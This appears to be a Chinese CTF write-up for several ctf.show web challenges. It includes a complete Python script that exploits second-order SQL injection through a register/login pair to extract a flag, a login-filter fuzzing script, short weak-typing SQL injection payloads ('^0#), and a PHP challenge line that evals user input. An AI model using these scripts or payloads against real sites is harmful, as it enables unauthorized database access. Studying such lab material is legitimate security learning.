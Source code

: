 @[toc]

##  签到

一进去就是login界面,F12看到有个register.php，说明就是一个二次注入的sql注入题。

所谓二次注入，就是再register中构造sql语句，然后登录login来触发。

找到羽师傅的脚本

```python
import requests
import re

url_register = "http://7b093e85-e6d5-4784-adab-49ba20992eda.challenge.ctf.show/register.php"
url_login = "http://7b093e85-e6d5-4784-adab-49ba20992eda.challenge.ctf.show/login.php"
flag = ''
#这儿50其实是在看看flag的字符
for i in range(1, 50):
    # 为什么要加两个hex，因为前端不超过10，不能限制，后端会判断是否为数字
    # select语句，基本就是猜的
    payload = "hex(hex(substr((select/**/flag/**/from/**/flag)from/**/" + str(i) + "/**/for/**/1))),/*"# from 1 for 1,相当与substr("",1,1)
    print(payload)
    s = requests.session()# 保持所有的请求都使用一个cookie，解决了cookie的问题
    # 利用email去与username相连接，单引号先闭合，再传payload，
    data1 = {
        'e': str(i + 30) + "',username=" + payload, #猜测insert语句
        'u': "*/#",
        'p': i + 30
    }
    # print(data1['e'])
    r1 = s.post(url_register, data=data1)
    data2 = {
        'e': i + 30,
        'p': i + 30
    }
    r2 = s.post(url_login, data=data2)
    t = r2.text
    # 登录，是用eamil和password登录，显示是username显示，说明可以通过这来得flag
    real = re.findall("Hello (.*?),", t)[0]
    flag += real
    print(flag)
感叹：确实写脚本，效果明显
```

##  

##  登录就有flag

考点：mysql弱类型

直接开始sql注入，先用`bp` fuzz，但是我的出了点问题

直接python fuzz吧

```
import requests

url="http://4bb5058d-d788-4c7b-b8d8-b760e2f34efe.challenge.ctf.show/check.php"
with open("a.txt","r") as f:
    for test in f.readlines():
        data={
            "u":test.strip(),
            "p":"123"
        }
        response=requests.post(url=url,data=data)
        if "hack?"  not in response.text:
            if "long" not in response.text:
                print(test.strip())
```

这个题，首先除了过滤了字符，而且还限制了长度（5个）

我们利用

```
# ' ^ 0
```

分号可以用于闭合，井号可以用于注释，^进行异或运算，等号就是判等，这里需要利用sql的一个点“mysql弱类型转换”，**空异或0会查到所有非数字开头的记录**

payload

```
'^0#
'^''#
```

##   出题人不想说话

见csdn

##  签退

代码

```php
<?php ($S = $_GET['S'])?eval("$$S"):highlight_file(__FILE__);
```




